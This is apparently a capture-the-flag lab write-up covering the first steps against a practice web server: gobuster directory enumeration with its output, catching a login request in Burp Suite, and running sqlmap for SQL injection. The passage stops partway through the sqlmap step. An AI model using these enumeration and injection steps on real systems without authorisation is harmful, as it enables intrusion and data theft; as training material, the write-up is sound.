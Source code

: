 ### Enumerating the Webserver:
``Gobuster``
```
gobuster dir -u http://10.10.131.235:1337 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
 ~ gobuster dir -u http://10.10.131.235:1337 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt

=========================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.131.235:1337
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2024/01/11 23:24:28 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 321] [--> http://10.10.131.235:1337/admin/]
/javascript           (Status: 301) [Size: 326] [--> http://10.10.131.235:1337/javascript/]
/phpmyadmin           (Status: 301) [Size: 326] [--> http://10.10.131.235:1337/phpmyadmin/]
/admin_101           (Status: 301) [Size: 326] [--> http://10.10.131.235:1337/admin_101/]
                                                                                           
===============================================================
2024/01/11 23:37:29 Finished
===============================================================

```
``Found to admin pages:`` /admin_101 already had a preconfigured username. Great!!

BurpSuite is our go-to tool to intercept the login request
[BurpSuite](/Easy_Boxes/img/screen)

Lets forward the request to the ``Repeater`` and send the request. Looking at the ``response`` we can see an ``SQL query`` which displays all the information for the user : hacker@root.thm.

An SQL query in the response could possibly mean an ``SQL injection attack``.
![[Screenshot 2024-01-11 at 11.46.50 PM.png]]

There is a hint about using sqlmap. So let's copy the request part of the Repeater to a file on my deskop:  ``~/Desktop/request``

run: ``sqlmap -r ~/Desktop/request``
![Burp-suite][\Screenshot 2024-01-12 at 12.02.19 AM.png]]

``Answer if prompted for:``
“are you sure that you want to continue with further target testing? [Y/n]” ``Y``

“it looks like the back-end DBMS is ‘MySQL’. Do you want to skip test payloads specific for other DBMSes? [Y/n] ``Y”``
